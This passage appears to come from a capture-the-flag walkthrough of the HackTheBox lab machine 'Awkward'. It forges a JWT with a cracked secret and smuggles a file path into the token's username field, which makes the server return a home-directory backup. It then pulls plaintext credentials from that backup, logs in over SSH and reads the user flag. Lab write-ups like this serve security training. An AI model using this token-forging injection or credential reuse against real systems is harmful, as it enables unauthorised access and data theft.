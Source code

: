 ```
fi
```

We see a custom alias!
```
# custom
alias backup_home='/bin/bash /home/bean/Documents/backup_home.sh'
```

Let's check it out
```
#!/bin/bash
mkdir /home/bean/Documents/backup_tmp
cd /home/bean
# archive '/home/bean' in '/home/bean/Documents/backup_tmp'
tar --exclude='.npm' --exclude='.cache' --exclude='.vscode' -czvf /home/bean/Documents/backup_tmp/bean_backup.tar.gz .
date > /home/bean/Documents/backup_tmp/time.txt
# go to 'backup_tmp'
cd /home/bean/Documents/backup_tmp
# archive 'backup_tmp' in 'backup'
tar -czvf /home/bean/Documents/backup/bean_backup_final.tar.gz .
rm -r /home/bean/Documents/backup_tmp
```

Looks like we have a directory called `/home/bean/Documents/backup_tmp`
- with a `tarball`! can we `curl` it?
- let's `curl` the `base url` with the `--header` flag with `token=<jwt>` and have it `-o` output to `backup.tar.gz`
- this means we need to create a new `jwt` with the path to the `tarball` as `username`

Here's the request:
```
curl http://hat-valley.htb/api/all-leave --headers "Cookie: token="$(python3 -c "import jwt; print(jwt.encode({\"username\": \"/' /home/bean/Documents/backup/bean_backup_final.tar.gz 'test\", \"iat\":1666598140}, \"123beany123\", algorithm=\"HS256\"))") --output bean_backup_final.tar.gz
```

We `tar xpvf` the contents, and start looking through the data

---

In `.config/xpad/content-DS1ZS1`, we get bean's user/pass combo:
```
Username: bean.hill
password: 014mrbeanrules!#P
```

We also see a note to `Make sure to use this everywere` - will keep that in mind!

Let's `ssh bean@10.10.11.185` with the above password

And we're in! We also can `cat` out the user flag in `user.txt`!
```
bean@awkward:~$ cat user.txt 
b2806835e9dc70e40ef987f84ff79649
bean@awkward:~$ 
```

---